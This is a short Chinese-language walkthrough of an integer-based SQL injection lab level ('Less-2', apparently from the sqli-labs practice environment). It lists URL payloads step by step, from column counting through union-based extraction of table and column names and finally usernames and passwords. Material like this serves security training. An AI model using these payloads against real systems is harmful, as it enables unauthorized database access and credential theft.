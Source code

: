 # Less-2 Error based - Integer based

加单引号报错，根据题意是基于整型的数据继续调整

?id=1'

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835725999-9ccbfbea-744c-43d6-9cb8-a990adc9e642.png)

调整语句正常显示

?id=1 or 1=1 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835693452-45963b0d-5e23-4982-971f-132413e62bb6.png)

去定查询的字段数

?id=1 order by 4--+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835663645-9d0ab9a4-3e17-46f4-84dc-68fef8be9a89.png)

判断回显的位置

?id=-1 union select 1,2,3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835644878-78419b8e-7c97-4f26-82ff-a098d3184df5.png)

获取当前数据库

?id=-1 union select 1,database(),3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835624100-4a0de31e-fbba-4dac-8c1f-4ce873f99c94.png)

获取数据库的表名

?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835597183-472bd9ec-b839-4ba2-a015-ba91765f2541.png)

获取表的字段名

?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835535136-dcfc4a22-26da-42e7-b7b2-9b0c7b72fcd8.png)

通过获取的表名和字段名查询用户名和密码

?id=-1 union select 1,group_concat(username,' ',password),3 from users  --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602835482965-34855ec6-e4c9-430e-9e9a-8825f5f4c85e.png)

